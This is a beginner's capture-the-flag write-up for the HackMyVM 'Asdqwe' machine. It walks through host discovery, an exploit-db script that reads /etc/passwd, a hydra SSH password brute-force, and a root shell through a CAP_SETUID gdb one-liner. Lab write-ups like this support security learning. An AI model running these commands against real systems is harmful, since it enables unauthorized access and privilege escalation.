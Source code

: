 # ASDQWE
**network discovery**
I usually use __Fping__ command to watch active machines in my network  

![fping_image](/images/)

i saw the __192.168.1.113__ is my the **CTF** machine 
![namp](GITHUB\Writeups\Hackmyvm\Asdqwe\images)

**FIND 8080 port lets check it**

i did some search on site but nothing ....

only got this information 

![info](/images/information.png)

i tried to brouteforce the login page but its seems to protected  so i got stuck 

###  Exploit-db

i check exploit-db  and this is result 
![exploit-db](/images/searchsploit.png)
exploit number is  __51993__
i import the file and can read some files  

```bash
python 51993.py  -u http://192.168.1.113:8080 -p /etc/passwd
```
_Result_ : 

![passwd](/images/passwd.png)

users that have bash : Root , kali , penetration 
*i serched a lot for id_rsa or any password but nothing ...*

i spend a 30 min to figure the solution of gettin a shell it  .   Thanks to my friend **ll104567**

from the name of machine i thought that password might be a silly  so ...
### Hydra
**hydra -l kali -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  ssh://192.168.1.113**
![hydrapassword](/images/hydra.png)

### PRIV ESC - ROOT
 
Getting root was easy 
check  capabilities and got below results :
[cap](/images/setuiddiscovery.png)

Find *GDB* command that got capabilities 

**If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.**

# ROOT ACCESS :

**gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit**

DONE :)

![root](/images/root.png)

it is my first write up, im sorry if i explained bad <3
